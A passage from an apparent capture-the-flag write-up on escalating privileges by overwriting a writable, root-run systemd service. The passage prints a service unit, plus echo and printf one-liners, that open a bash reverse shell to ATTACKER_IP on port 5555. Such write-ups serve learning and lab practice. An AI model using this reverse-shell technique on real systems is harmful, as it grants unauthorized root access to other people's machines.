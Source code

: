 We can see that it makes a call to the **vulnnet-job.service** file every 30 minutes.

**Contents of vulnnet-job.service:**

![screenshot23](../assets/images/vulnnet_node/screenshot23.png)

This service file executes the `/bin/df` program, which logs system statistics.

Since we can write over **vulnnet-job.service**, we can have it open up a reverse shell instead of executing `/bin/df` (Relevant [article](https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49)).

We'll replace vulnnet-job.service with the following file:

```
[Unit]
Description=abc

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1"

[Install]
WantedBy=multi-user.target
```

Thus, when vulnnet-job.service is called, it will execute a command that opens a reverse shell back to our machine.

I tried to use `nano` to edit vulnnet-job.service directly, but it was not working, even after upgrading to a fully-interactive shell.

Next, I tried to use `echo` to completely replace the file:

```
echo '[Unit]\nDescription=abc\n\n[Service]\nType=simple\nUser=root\nExecStart=/bin/bash -c "bash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1"\n\n[Install]\nWantedBy=multi-user.target' > vulnnet-job.service
```

However, the `\n` characters were not being recognized as newline characters.

Doing some troubleshooting, I discovered an alternative to `echo` that worked - `printf`

```
printf '[Unit]\nDescription=abc\n\n[Service]\nType=simple\nUser=root\nExecStart=/bin/bash -c "bash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1"\n\n[Install]\nWantedBy=multi-user.target' > vulnnet-job.service
```
